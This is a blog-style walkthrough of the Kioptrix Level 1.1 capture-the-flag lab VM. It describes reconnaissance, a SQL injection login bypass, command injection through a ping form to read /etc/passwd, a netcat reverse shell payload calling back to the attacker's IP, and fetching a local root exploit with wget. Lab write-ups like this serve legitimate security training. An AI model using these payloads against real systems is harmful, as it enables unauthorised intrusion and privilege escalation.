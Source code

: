 ```yaml
---
layout: post
title: Kioptrix Level 1.1 Walkthrough
---
```

Time to move on to the next challenge labled "Kioptrix 1.1". The attacker uses netdiscover to find the ip of the new target Kioptrix 1.1. 

![Image description](/images/kioptrix1.2.1.png)

The ip of the vulnerable virtual machine is 172.16.158.129. The attacker needed to gather more information about the virtual machine so he used nmap to do a basic scan. 

![Image description](/images/kioptrix1.2.2.png)

Right away he noticed multiple interesting ports to explore. He decided to start with port 80 and he opened up his web browser then pointed it to 172.16.158.129 to see if there are any vulnerable web applications. He is greeted with a login form. 

![Image description](/images/kioptrix1.2.3.png)

He was able to get in with a simple SQL injection.

Login: Admin
Password: ' OR '1'='1

He was then brought to a form that allows you to ping a mahine on the network. He tried pinging local host with cat of /etc/passwd to see what information the forms would post. 

![Image description](/images/kioptrix1.2.7.png)

He was able to display the contents of /etc/passwd for later use. However, he still needed to obtain root. he decided to see if he could obtain a shell in a similar way that he displayed /etc/passwd.

![Image description](/images/kioptrix1.2.14.png)

He set up netcat to listen for any connects on port 9292 and then entered 127.0.0.1;/usr/local/bin/nc 172.16.158.128 9292 -e '/bin/bash' into the webform and obtained a shell. However, he still wasnt root.

![Image description](/images/kioptrix1.2.10.png)

He found a local root exploit but he needed to get it over to kioptrix. He set up a python simple server to host my exploit.

![Image description](/images/kioptrix1.2.13.png)

Then he used wget to get the exploit. 

![Image description](/images/kioptrix1.2.12.png)

He compiled the exploit, and then ran it. Root obtained!

![Image description](/images/kioptrix1.2.11.png)

On to the next challenge!

